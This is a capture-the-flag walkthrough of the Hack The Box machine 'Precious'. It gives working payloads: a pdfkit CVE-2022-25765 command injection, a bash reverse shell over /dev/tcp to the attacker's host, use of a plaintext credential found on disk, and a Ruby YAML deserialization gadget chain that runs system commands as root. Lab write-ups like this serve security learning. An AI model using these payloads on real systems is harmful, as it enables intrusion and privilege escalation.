 # Precious

---

## Enumeration

- nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- website redirects to domain name: `precious.htb`, converter HTML to PDF
- Tested a pdf file, the server is using `pdfkit v0.8.6`

```bash 
exiftool uembazl7c5psymbnll7oad4y0glo8hp0.pdf 

...

Creator                         : Generated by pdfkit v0.8.6
```

- Vulnerable to [CVE-2022-25765](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

---

## Foothold

### PoC

- Tried the payload: ```http://10.10.16.18/?name=#{'%20`curl 10.10.16.18`'}``` and I got the response:

```bash
nc -lvnp 9000    

listening on [any] 9000 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.255.108] 44900
GET / HTTP/1.1
Host: 10.10.16.18:9000
User-Agent: curl/7.74.0
Accept: */*

```

- Now I set up a payload and got a reverse shell

### Payload:

```zsh
┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Precious]
└─$ nano shell.sh      
                                                                                                                                                             
┌──(kali㉿kali)-[~/CTF/HTB-CTF/Machines/Precious]
└─$ cat shell.sh                            
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.18/9001 0>&1
--------------------------------
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9001                                      
listening on [any] 9001 ...

```

### On the victim machine:

- Sent the payload as: ```http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.18/1337 0>&1"`'}```

```zsh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.200.179] 56842
bash: cannot set terminal process group (675): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ which nc
which nc
ruby@precious:/var/www/pdfapp$ which python
which python
ruby@precious:/var/www/pdfapp$ which python3
which python3
/usr/bin/python3
ruby@precious:/var/www/pdfapp$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
ruby@precious:/var/www/pdfapp$ ^Z
zsh: suspended  nc -lvnp 1337
                                                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg                          
[1]  + continued  nc -lvnp 1337

ruby@precious:/var/www/pdfapp$ export TERM=xterm-256color
ruby@precious:/var/www/pdfapp$ 
```

---

## Lateral Movement

- User flag was under `henry`'s account.
- After some enumeration on the file system found `.bundle` folder that had Henry's creds:

```bash
ruby@precious:~$ ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Nov 26 16:59 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Nov 26 16:59 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ cd .bundle/
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
ruby@precious:~/.bundle$ su henry
Password: 
henry@precious:/home/ruby/.bundle$ 

```

---

## Privilege Escalation

- After some enumeration, found that user `Henry` can run the following command using `sudo` as root:

```bash
henry@precious:/tmp/pwn$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

- Found a deserialization attack on `update_dependencies.rb` and the file being called in `YAML.load` is being called using relative path!
- https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/

## PoC

- `dependencies.yml` file:

```yaml
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "curl http://10.10.16.18"
         method_id: :resolve
```

- Victim machine:

```bash
henry@precious:/tmp/pwn$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```

- Attacking machine:

```zsh
nc -lvnp 80  
listening on [any] 80 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.200.179] 37634
GET / HTTP/1.1
Host: 10.10.16.18
User-Agent: curl/7.74.0
Accept: */*
```

- To get root access, I modified the payload to execute `chmod +s /bin/bash`.

```bash
henry@precious:/tmp/pwn$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:/tmp/pwn$ sudo /usr/bin/ruby /opt/update_dependencies.rb 

<--SNIP-->

henry@precious:/tmp/pwn$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:/tmp/pwn$ bash -p
bash-5.1# whoami
root

```

---
